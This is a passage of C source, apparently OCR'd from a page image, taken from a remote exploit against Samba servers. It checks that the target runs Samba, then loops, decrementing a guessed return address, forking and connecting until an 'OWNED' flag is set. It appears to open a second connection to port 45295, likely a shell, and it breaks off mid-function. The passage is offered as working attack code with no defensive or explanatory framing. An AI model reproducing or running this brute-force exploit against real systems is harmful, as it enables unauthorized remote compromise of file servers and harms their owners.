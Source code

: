             memcpy(&addr1.sin_addr, he->h_addr, he->h_length);
            memcpy(&addr2.sin_addr, he->h_addr, he->h_length);

            addr1.sin_family = AF_INET;
            addr1.sin_port   = htons(port);
            addr2.sin_family = AF_INET;
            addr2.sin_port   = htons(45295);

            for (i = 0; i < 100; i++)
                    childs[i] = -1;
            i = 0;

            if (force == 0) {
                    if (is_samba(argv[optind], 2) != 0) {
                            fprintf(stderr, "+ Host is not running samba!\n\n");
                            return -1;
                    }

                    fprintf(stderr, "+ Host is running samba.\n");
            }

            while (OWNED == 0) {

                    if (sock  > 2) close(sock);
                    if (sock2 > 2) close(sock2);

                    if ((sock = socket(AF_INET, SOCK_STREAM, 6)) < 0) {
                            if (verbose == 1) fprintf(stderr, "+ socket() error.\n");
                    }
                    else {
                            ret -= STEPS;
                            i++;
                    }

                    if ((sock2 = socket(AF_INET, SOCK_STREAM, 6)) < 0)
                            if (verbose == 1) fprintf(stderr, "+ socket() error.\n");


                    if ((ret & 0xff) == 0x00 && brute != 3) ret++;

                    if (verbose == 1) fprintf(stdout, "+ Using ret: [0x%08x]\n", (unsigned int)ret);

                    usleep(BRUTE_DELAY);

                    switch (childs[i] = fork()) {
                            case 0:
                                    if(Connect(sock, (char *)inet_ntoa(addr1.sin_addr), port, 2) == -1) {
                                            if (sock  > 2) close(sock);
                                            if (sock2 > 2) close(sock2);
                                            exit(-1);
                                    }

                                    if(write_timer(sock, 3) == 1) {
                                            if (start_session(sock) < 0) {
                                                    if (verbose == 1) fprintf(stderr, "+ Session failed.\n");
                                                    if (sock  > 2)close(sock);
                                                    if (sock2 > 2) close(sock2);
                                                    exit(-1);
                                            }
